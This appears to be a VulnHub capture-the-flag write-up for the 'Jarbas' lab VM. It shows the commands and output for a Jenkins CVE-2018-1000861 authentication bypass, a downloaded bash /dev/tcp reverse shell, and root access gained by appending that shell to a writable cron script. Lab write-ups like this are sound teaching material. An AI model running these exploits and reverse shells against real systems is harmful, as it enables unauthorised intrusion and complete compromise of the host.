 # Jarbas: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.240 00:0c:29:e1:f2:ed       VMware, Inc.
192.168.127.254 00:50:56:e5:26:19       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 3 responded
```

The IP address is `192.168.127.240`

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -v -oN nmap.out 192.168.127.240

Nmap scan report for 192.168.127.240
Host is up (0.00088s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Jarbas - O Seu Mordomo Virtual!
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
MAC Address: 00:0C:29:E1:F2:ED (VMware)
```

We immediately explore port 80 and 8080, in port 80 there is just a normal website that leads to nothing but

port 8080 serves a jenkins server with a login form. investigating internet to find the version of jenkins, i found

this [guide](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security) which says navigating to `/oops` shows the version

of jenkins so :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a3345335-5afc-4c3e-9bc3-9549de8f0c8c)
![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/d15f5741-2f13-4c0a-b840-e274631e23b9)

jenkins version is `2.113`, i just searched if there is any exploit for this version and i found this [link](https://github.com/gquere/pwn_jenkins#authenticationacl-bypass-cve-2018-1000861-jenkins-21501)

that says there is a Authentication/ACL bypass if this command returns a valid data :

```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```

i used this command against the target and i got a response :

```bash
root@kali: curl -k -4 -s http://192.168.127.240:8080/securityRealm/user/admin/search/index?q=a

<!DOCTYPE html><html><head resURL="/static/f3ad8932" data-rooturl="" data-resurl="/static/f3ad8932">

<title>Search for 'a' [Jenkins]</title><link rel="stylesheet" href="/static/f3ad8932/css/layout-common.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/style.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/color.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/css/responsive-grid.css" type="text/css" /><link rel="shortcut icon" href="/static/f3ad8932/favicon.ico" type="image/vnd.microsoft.icon" /><link color="black" rel="mask-icon" href="/images/mask-icon.svg" /><script>var isRunAsTest=false; var rootURL=""; var resURL="/static/f3ad8932";</script><script src="/static/f3ad8932/scripts/prototype.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/behavior.js" type="text/javascript"></script><script src='/adjuncts/f3ad8932/org/kohsuke/stapler/bind.js' type='text/javascript'></script><script src="/static/f3ad8932/scripts/yui/yahoo/yahoo-min.js"></script><script src="/static/f3ad8932/scripts/yui/dom/dom-min.js"></script><script src="/static/f3ad8932/scripts/yui/event/event-min.js"></script><script src="/static/f3ad8932/scripts/yui/animation/animation-min.js"></script><script src="/static/f3ad8932/scripts/yui/dragdrop/dragdrop-min.js"></script><script src="/static/f3ad8932/scripts/yui/container/container-min.js"></script><script src="/static/f3ad8932/scripts/yui/connection/connection-min.js"></script><script src="/static/f3ad8932/scripts/yui/datasource/datasource-min.js"></script><script src="/static/f3ad8932/scripts/yui/autocomplete/autocomplete-min.js"></script><script src="/static/f3ad8932/scripts/yui/menu/menu-min.js"></script><script src="/static/f3ad8932/scripts/yui/element/element-min.js"></script><script src="/static/f3ad8932/scripts/yui/button/button-min.js"></script><script src="/static/f3ad8932/scripts/yui/storage/storage-min.js"></script><script src="/static/f3ad8932/scripts/hudson-behavior.js" type="text/javascript"></script><script src="/static/f3ad8932/scripts/sortable.js" type="text/javascript"></script><script>crumb.init("Jenkins-Crumb", "8f6180d50a5ba4e2893af9f93c568926");</script><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/assets/skins/sam/skin.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/container/assets/skins/sam/container.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/button/assets/skins/sam/button.css" type="text/css" /><link rel="stylesheet" href="/static/f3ad8932/scripts/yui/menu/assets/skins/sam/menu.css" type="text/css" /><meta name="ROBOTS" content="INDEX,NOFOLLOW" /><meta name="viewport" content="width=device-width, initial-scale=1" /><script src="/static/f3ad8932/jsbundles/page-init.js" type="text/javascript"></script></head><body data-model-type="hudson.search.Search" id="jenkins" class="yui-skin-sam two-column jenkins-2.113" data-version="2.113"><a href="#skip2content" class="skiplink">Skip to content</a><div id="page-head"><div id="header"><div class="logo"><a id="jenkins-home-link" href="/"><img src="/static/f3ad8932/images/headshot.png" alt="title" id="jenkins-head-icon" /><img src="/static/f3ad8932/images/title.png" alt="title" width="139" id="jenkins-name-icon" height="34" /></a></div><div class="login"> <a href="/login?from=%2FsecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex"><b>log in</b></a></div><div class="searchbox hidden-xs"><form method="get" name="search" action="/securityRealm/user/admin/search/" style="position:relative;" class="no-json"><div id="search-box-minWidth"></div><div id="search-box-sizer"></div><div id="searchform"><input name="q" placeholder="search" id="search-box" class="has-default-text" value="a" /> <a href="https://jenkins.io/redirect/search-box"><img src="/static/f3ad8932/images/16x16/help.png" style="width: 16px; height: 16px; " class="icon-help icon-sm" /></a><div id="search-box-completion"></div><script>createSearchBox("/securityRealm/user/admin/search/");</script></div></form></div></div><div id="breadcrumbBar"><tr id="top-nav"><td id="left-top-nav" colspan="2"><link rel='stylesheet' href='/adjuncts/f3ad8932/lib/layout/breadcrumbs.css' type='text/css' /><script src='/adjuncts/f3ad8932/lib/layout/breadcrumbs.js' type='text/javascript'></script><div class="top-sticker noedge"><div class="top-sticker-inner"><div id="right-top-nav"><div id="right-top-nav"><div class="smallfont"><a href="?auto_refresh=true">ENABLE AUTO REFRESH</a></div></div></div><ul id="breadcrumbs"><li class="item"><a href="/" class="model-link inside">Jenkins</a></li><li href="/" class="children"></li><li class="item"><a href="/securityRealm/" class=" inside">Jenkins’ own user database</a></li><li class="separator"></li><li class="item"><a href="/securityRealm/user/admin/" class="model-link inside">admin</a></li><li class="separator"></li></ul><div id="breadcrumb-menu-target"></div></div></div></td></tr></div></div><div id="page-body" class="clear"><div id="side-panel"></div><div id="main-panel"><a name="skip2content"></a><h1>Search for 'a'</h1><ol><li id="item_admin"><a href="?q=admin">admin</a></li><li id="item_master"><a href="?q=master">master</a></li></ol></div></div><footer><div class="container-fluid"><div class="row"><div class="col-md-6" id="footer"></div><div class="col-md-18"><span class="page_generated">Page generated: Nov 8, 2023 9:19:37 AM BRST</span><span class="jenkins_ver"><a href="https://jenkins.io/">Jenkins ver. 2.113</a></span></div></div></div></footer></body></html>
```

so now i'm pretty sure that this version of jenkins is vulnerable, so again i searched to find any exploit for this vulnerability (CVE-2018-1000861)

and i found [this](https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/poc.py) exploit on github which is just a PoC, but i used it in a creative way.

just downloaded the python file and run it against the target :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'whoami'                
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

with this output i'm now 100% sure that i can get a shell but this script returns no command output but it realy executes the command on the server.

## 3.Gaining Shell

So i created a reverse shell on my kali machine and served it with python web server :

```bash
root@kali: cat shell.sh                                                                       
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'

root@kali: python3 -m http.server 80                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and then used the `poc.py` file to download the shell.sh on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'wget http://192.168.127.128/shell.sh -P /dev/shm'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and then start a listener on your system and call the shell.sh file on the victim :

```bash
root@kali: python2 poc.py http://192.168.127.240:8080/ 'bash /dev/shm/shell.sh'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

and on my machine :

```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53568
bash: no job control in this shell
bash-4.2$ id
id
uid=997(jenkins) gid=995(jenkins) groups=995(jenkins) context=system_u:system_r:initrc_t:s0
```

yes we got the shell.

## 4.Privilege Escalation

Check crontab file :

```bash
bash-4.2$ cat /etc/crontab

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
```

the file `CleaningScript.sh` is writable by user `jenkins` so just add the following line to the file :

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

content of the file :

```bash
bash-4.2$ cat /etc/script/CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```

and wait for the shell after 5 minutes :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.240] 53572
bash: no job control in this shell

[root@jarbas ~]# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:system_cronjob_t:s0-s0:c0.c1023

[root@jarbas ~]# ls
flag.txt

[root@jarbas ~]# cat flag.txt
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs 
```

this is how you can get root on this machine.

there is also another way, to find the user hashes in /access.html file on port 80 and then use metasploit to get the shell :)












